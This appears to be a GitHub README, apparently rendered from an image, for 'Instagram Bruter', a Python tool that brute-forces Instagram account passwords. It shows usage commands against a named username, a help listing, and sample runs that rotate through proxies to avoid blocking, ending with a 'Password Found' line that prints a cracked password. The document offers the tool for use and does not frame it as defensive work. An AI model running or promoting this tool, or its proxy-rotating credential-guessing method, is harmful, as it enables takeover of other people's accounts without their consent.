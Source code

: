 # Instagram Bruter

Re-engineered to work **without** TOR

__Usage:__ `python instagram.py <username> <wordlist> <threads>`
<br>
**Example:** `python instagram.py Sami09.1 pass.lst 16`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Tested on
- Kali Linux
- Kali Nethunter
- Mac OS X 
- Windows 10

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] username wordlist threads

positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

optional arguments:
  -h, --help  show this help message and exit
```

### Start
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst 16
```

### Run
```
[-] Proxy-IP: 159.89.133.123[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 16
[-] Attempts: 16
[-] Proxies: 395
````

### Stop
```
[-] Proxy-IP: 167.99.12.149[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 22
[-] Proxies: 394

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
